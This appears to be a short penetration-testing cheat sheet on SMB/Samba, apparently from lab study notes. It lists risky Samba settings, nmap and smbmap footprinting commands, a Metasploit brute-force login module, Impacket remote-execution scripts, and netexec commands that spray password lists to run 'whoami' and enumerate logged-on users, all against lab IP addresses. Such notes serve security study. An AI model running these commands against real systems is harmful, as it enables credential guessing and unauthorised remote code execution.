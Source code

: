 ### Dangerous Settings
| Setting             | Description                                                   |
|---------------------|---------------------------------------------------------------|
| browseable = yes    | Allow listing available shares in the current share?          |
| read only = no      | Forbid the creation and modification of files?                |
| writable = yes      | Allow users to create and modify files?                       |
| guest ok = yes      | Allow connecting to the service without using a password?     |
| enable privileges = yes | Honor privileges assigned to specific SID?                 |
| create mask = 0777 | What permissions must be assigned to the newly created files? |
| directory mask = 0777 | What permissions must be assigned to the newly created directories? |
| logon script = script.sh | What script needs to be executed on the user's login?     |
| magic script = script.sh | Which script should be executed when the script gets closed? |
| magic output = script.out | Where the output of the magic script needs to be stored?   |


### Footprinting the Service
- nmap
```bash
 sudo nmap 10.129.14.128 -sV -sC -p139,445
```
- smbmap
```bash
smbmap -H 10.129.202.5 -s sambashare
```
- metasploit
```bash
# bruteforce login
msf > use auxiliary/scanner/smb/smb_login
```
### RCE 

```
/usr/share/doc/python3-impacket/examples/psexec.py

/usr/share/doc/python3-impacket/examples/smbexec.py

/usr/share/doc/python3-impacket/examples/atexec.py

netexec smb 10.129.202.85 -u user.list -p password.list   -x 'whoami' --exec-method smbexec
```
### Enumerating Logged-on Users
```bash
netexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

```
